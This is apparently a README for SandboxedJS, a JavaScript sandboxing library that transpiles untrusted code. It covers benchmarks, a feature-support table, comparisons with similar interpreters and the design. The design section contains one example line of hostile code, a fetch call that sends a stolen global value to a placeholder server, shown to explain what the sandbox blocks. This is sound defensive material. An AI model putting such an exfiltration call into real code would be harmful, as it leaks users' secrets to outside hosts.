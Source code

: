 # SandboxedJS

Sandbox untrusted/arbitrary JavaScript code and safely execute it in isolation.

## Performance

Run `npm run benchmark` to benchmark SandboxedJS's `saveEval` against a native js `eval`. Currently most benchmarks comparisons show SandboxedJS is **~20x** slower than native JS. However, if you don't count the time required to transpile the code, execution time can be between **~1.3x to ~20x** slower than native JS, depending on the kind of work being performed.

## Status

Under active development. Looking for others to help out!

## JS Support 

| Feature | Status |
| ------- | ------ |
| primitives | ✅ |
| `number` | ✅ |
| `string` | ✅ |
| `boolean` | ✅ |
| `null` | ✅ |
| `undefined` | ✅ |
| `bigint` | ✅ |
| `symbol` | ⚠️ |
| autoboxing primitives to objects | ⚠️ |
| binary operators (`+`, `-`, `%`, etc.) | ✅ |
| unary operators  (`+`, `-`, `typeof`, etc.) | ✅ |
| simple objects (i.e. `{a: true}`) | ✅ |
| arrays | ✅ |
| functions | ✅ |
| `this` | ⚠️ |
| `arguments` | ✅ |
| local variables | ✅ |
| assignment | ✅ |
| global variables | ⚠️ |
| prototypes | ⚠️ |
| `Object` global | ⚠️ |
| ternary operators | ❌ |
| global variables | ❌ |


| Legend |  |
| ------- | ------ |
| ✅ | Finished  |
| ⚠️ | In development  |
| ❌ | Haven't started work  |

## Comparison of JS in JS Implementations

| Name | Link | Performance |
| ----------- | ----------- | --------- |
| SandboxedJS |  | ~20x slower than native? |
| js.js | https://github.com/jterrace/js.js/ | [~200x slower than native]()https://github.com/jterrace/js.js/#status |
| JS-Interpreter | https://github.com/NeilFraser/JS-Interpreter/ | [~200x slower than native](https://github.com/NeilFraser/JS-Interpreter/issues/227) |


## Design

Let's say we want to sandbox the following untrusted JS code:

```js
fetch("https://api.example.com?stolenSecret=" + window.globalValue);
```

In this example, the untrusted code is attempting to grab a global value it should NOT have access to and pass the value to its server. If this code was naively run with `eval`, the host environment would be compromised.

To make untrusted JS code safe to run, SandboxedJS rewrites the untrusted code using a JS-to-JS transpilation step. Then it is safe to run `eval` on the transpiled js code. The resulting transpiled code of the above example might look something as follows:

```js
sContext.sLookUp("fetch").sCall([
  SBinaryOps.sBinaryAdd(
    new SStringValue("https://api.example.com?stolenSecret="),
    sContext.sLookUp("window").sLookUp("globalValue")
  )
])
```

Note, the "s" prefix is short for "sandboxed".

To produce this code, SandboxedJS uses [acorn](https://github.com/acornjs/acorn) to produce an AST of the untrusted JS. It then walks the entire AST and emits each piece of the tree in the format above.

## Running Locally

Install deps: `npm i`

Run benchmarks: `npm run benchmark`

Run tests: `npm test`

Build to `lib` folder: `npm run build`

## Unique Features

 - Add metadata to any JS value which is invisible to the client (untrusted) JS code but visible to the host environment.
